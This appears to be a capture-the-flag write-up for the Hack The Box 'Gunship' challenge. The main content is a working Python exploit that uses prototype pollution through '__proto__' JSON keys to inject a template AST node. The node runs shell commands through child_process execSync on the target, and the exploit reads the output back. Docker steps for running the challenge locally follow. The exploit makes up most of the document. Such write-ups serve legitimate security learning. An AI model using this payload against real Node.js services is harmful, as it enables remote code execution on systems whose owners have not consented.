 ref:- 

1. https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
2. https://portswigger.net/web-security/prototype-pollution
3. https://app.hackthebox.com/challenges/Gunship



```python
import requests
TARGET_URL = 'http://94.237.63.83:39617'
# TARGET_URL = 'http://127.0.0.1:1337'
newJSON={
"artist.name":"Gingell",
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}}
oldjson={
"artist.name":"Gingell",
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
}
# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = newJSON)
print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```

![protoPopulationOutput.png](protoPopulationOutput.png)


#### with docker
download docker file from htb

###### build
```bash
sudo docker build -t web_gunship .
```

###### run it
```bash
sudo docker run -p 1337:1337 web_gunship
```

If you want to get shell to that docker

```bash
sudo docker ps
```


```
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS                                       NAMES
e8a996d1906d   gunship   "/entrypoint.sh /usr…"   7 minutes ago   Up 7 minutes   0.0.0.0:1337->1337/tcp, :::1337->1337/tcp   awesome_payne
```

```bash
sudo docker exec -it e8a996d1906d sh
```